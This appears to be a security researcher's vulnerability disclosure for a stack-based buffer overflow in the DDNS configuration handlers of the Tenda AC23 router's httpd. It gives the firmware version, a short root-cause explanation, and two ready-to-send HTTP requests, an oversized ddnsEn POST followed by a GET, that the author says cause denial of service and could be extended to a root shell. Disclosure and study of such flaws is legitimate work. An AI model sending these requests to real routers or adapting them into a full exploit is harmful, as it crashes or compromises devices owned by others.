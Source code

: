 # Tenda AC23 formGetSysToolDDNS stack-based overflow

## 1.Product 

![image-20220924150554791](https://github.com/jingping911/tendaAC23overflow/blob/main/1.jpg)

1. **product information: https://www.tenda.com.cn/** 
2. **firmware download:https://www.tenda.com.cn/download/detail-3420.html**

----

## 2.**Firmware**

**Hardware version:V1.0**

**Software version:V16.03.07.45**

## 3.vulnerability details

The vulnerability is in` /bin/httpd` , the function `formSetSysToolDDNS`, ` formGetSysToolDDNS` . The function `formSetSysToolDDNS` can set nvram val `adv.ddns1.en` to` v22` , **which can be set through POST parameter`ddnsEn`**

![image-20220924150554791](https://github.com/jingping911/tendaAC23overflow/blob/main/1.png)

and in function `formGetSysToolDDNS` , the function calls `GetValue(“adv.ddns1.en”, v11)` to set the string to` v11` which is on the stack. So there is a stack overflow vulnerability. By analyze the funtion GetValue and SetValue , the max size of the string we can get from the function GetValue is `0x5DC` . It’s bigger than the size of`v11 `

![image-20220924150554791](https://github.com/jingping911/tendaAC23overflow/blob/main/2.png)

so there is a buffer overflow vulnerability. 

## 4.poc
By sending  poc1 and poc2 (remember to send poc2), it can cause dos and rce. 

```
POST /goform/SetDDNSCfg HTTP/1.1
Host: 192.168.0.1
Content-Length: 641
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36
(KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.0.1
Referer: http://192.168.0.1/ddns_config.html?random=0.48392112228286877&
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: password=25d55ad283aa400af464c76d713c07adoikcvb
Connection: close
ddnsEn=111111111111111111111111111111111111111111111111111111111111111111111
1111111111111111111111111111111111111111111111111111111111111111111111111111
1111111111111111111111111111111111111111111111111111111111111111111111111111
1111111111111111111111111111111111111111111111111111111111111111111111111111
1111111111111111111111111111111111111111111111111111111111111111111111111111
1111111111111111111111111111111111111111111111111111111111111111111111111111
1111111111111111111111111111111111111111111111111111111111111111111111111111
11111111111111111111111111111111111111111111111111&serverName=noip.com&ddnsUser=a&ddnsPwd=a&ddnsDomain=b.top
```

```
GET /goform/GetDDNSCfg?0.45256296854497835 HTTP/1.1
Host: 192.168.0.1
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36
(KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
X-Requested-With: XMLHttpRequest
Referer: http://192.168.0.1/ddns_config.html?random=0.48392112228286877&
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: password=25d55ad283aa400af464c76d713c07adoikcvb
Connection: close
```

**By sending this poc, can achieve the effect of a denial-of-service(DOS) attack**

**Also can write exp to get a stable root shell.**





### 5.Author

*Wangjingping*
